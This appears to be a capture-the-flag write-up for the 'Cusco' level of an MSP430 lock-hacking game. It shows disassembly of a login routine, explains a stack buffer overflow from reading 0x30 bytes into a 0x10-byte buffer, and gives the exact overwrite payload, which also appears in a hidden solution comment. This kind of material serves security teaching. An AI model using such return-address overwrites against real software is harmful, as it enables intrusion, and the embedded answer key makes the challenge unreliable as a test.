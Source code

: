 # Cusco
> partial source code is [here](./dump.asm)
> **Vulnerability**: stack buffer overflow

## Analysis
Focus on the function `<login>`
```asm
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp                     ; sp = sp - 0x10
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>                 ; gets(sp, 0x30)
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	$+0xc <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	$+0x6 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

From `4500:  3150 f0ff      add	#0xfff0, sp`, we know that the stack size is `0x10` bytes and at `451a`, it calls `gets(sp, 0x30)` which gets **maximum 0x30 bytes** of input on the stack.

### Vulnerability
**<u>0x30 > 0x10</u>** so there is a **stack buffer overflow** and `input[0x10]` will hold the return address of the function `<login>`.

## Exploit
0x10 bytes of padding + 0x2 bytes of address for `<unlock_door>` function, `0x4644` in little endian

<!-- solution: {'level_id': 5, 'input': '414141414141414141414141414141414644;'} -->
